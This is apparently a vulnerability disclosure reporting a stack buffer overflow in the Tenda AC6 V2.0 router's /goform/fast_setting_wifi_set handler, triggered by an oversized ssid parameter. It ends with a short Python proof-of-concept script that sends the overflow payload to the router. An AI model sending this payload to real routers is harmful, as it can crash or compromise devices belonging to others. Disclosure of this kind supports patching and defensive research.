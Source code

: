 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been discovered in the Tenda AC6 V2.0 router firmware version 15.03.06.50. The vulnerability exists in the `/goform/fast_setting_wifi_set` HTTP request handler and can be exploited remotely by unauthenticated attackers to achieve arbitrary code execution or cause denial of service conditions.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/fast_setting_wifi_set` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `ssid`.

![alt text](image-2.png)

## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'ssid': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x40 * b'A' + b'DOIT'

send_payload("http://10.10.10.1/goform/fast_setting_wifi_set", payload)
```